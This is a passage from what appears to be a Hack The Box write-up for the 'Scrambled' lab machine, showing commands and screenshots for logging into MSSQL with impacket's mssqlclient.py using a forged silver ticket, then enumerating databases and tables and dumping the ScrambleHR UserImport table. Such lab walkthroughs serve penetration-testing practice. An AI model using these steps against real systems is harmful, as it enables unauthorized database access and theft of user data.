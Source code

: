 ![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Scrambled/screenshots/silver%20ticket%20impacket.png)

### login mssqlclient impacket with new ticket
````
sudo python3 mssqlclient.py DC1.scrm.local -k

`````

![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Scrambled/screenshots/mssqlclient%20login%20database%20silver%20ticket.png)

### enumerate mssql database
````
select name from sys.databases;

`````
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Scrambled/screenshots/mssql%20list%20databeses.png)

### mssql list tables
````
select TABLE_NAME from ScrambleHR.INFORMATION_SCHEMA.TABLES;

`````

![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Scrambled/screenshots/mssql%20list%20table.png)

### mssql dump table UserImport
````
select * from ScrambleHR..UserImport;
select * from ScrambleHR.dbo.UserImport;

`````

![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Scrambled/screenshots/mssql%20dump%20table.png)
